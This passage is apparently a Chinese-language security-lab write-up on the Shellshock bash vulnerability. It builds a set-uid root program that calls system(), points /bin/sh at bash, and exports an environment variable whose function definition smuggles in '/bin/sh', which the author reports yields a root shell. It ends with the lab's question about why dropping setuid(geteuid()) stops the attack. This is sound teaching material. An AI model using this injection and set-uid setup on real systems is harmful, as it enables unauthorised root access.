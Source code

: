 创建文件b.c 编译并为它设置为 set-uid 程序。

```C
#include <stdio.h>
void main()
{
setuid(geteuid()); // make real uid = effective uid.
system("/bin/ls -l");
}
```

```bash
sudo ln -sf /bin/bash /bin/sh

gcc b.c -o b
sudo chown root b
sudo chmod 4755 b
```

![image-20220326111450549](ShellShock/image-20220326111450549.png)

应该注意的是，使用setuid（geteuid（））将真正的uid转换为有效的uid在Set-UID程序中并不常见，但它确实发生了。

攻击代码

```BASH
export att='() { echo hello; }; /bin/sh'
```

攻击成功

```
./b
```

![image-20220326111833038](ShellShock/image-20220326111833038.png)

得到了 root 权限的shell。

### Task 2B

> 现在，从上面的程序中删除` setuid(geteuid()); `语句，并重复你的攻击。您能否获得 root 权限？
>
> 在实验中，当删除该行时，攻击将失败（使用该行，攻击成功）。换句话说，如果真实用户 ID 和有效用户 ID 相同，则会评估环境变量中定义的函数，从而利用 Shellshock 漏洞。但是，如果实际用户 ID 和有效用户 ID 不相同，则根本不计算环境变量中定义的函数。这可以从 bash 源代码（变量.c，在第 308 行到第 369 行之间）进行验证。可以从实验室网站获取源代码。请准确指出哪条线导致了差异，并解释为什么Bash会这样做。
